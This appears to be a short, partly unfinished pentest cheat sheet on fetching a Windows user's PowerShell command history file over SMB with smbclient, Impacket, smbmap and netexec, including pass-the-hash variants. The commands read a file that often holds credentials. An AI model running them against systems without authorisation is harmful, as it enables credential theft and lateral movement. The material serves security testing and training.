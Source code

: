# Unix Shell

TODO: Convert it

smbclient

smbclient.py

smbmap

netexec

## 01 - Samba Suite Utils

```
smb: \> more /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt

smb: \> get /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt
```

## 02 - Impacket

```
$ smbclient.py

$ smbclient.py
```

Retrieve text file.

```
# get Users\<username>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_history.txt
```

## 03 - SMBMap

```
$ smbmap -u "<username>" -p "<<password> | <nt_hash>>" [-d <domain>] -H <IP> --download "C$\Users\<username>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_history.txt"
```

## 04 - NetExec

```
$ netexec smb -u "<username>" -p "<password>" [-d <domain> | --local-auth] --get-file /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt powershell_history.txt

$ netexec smb -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth] --get-file /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt powershell_history.txt
```
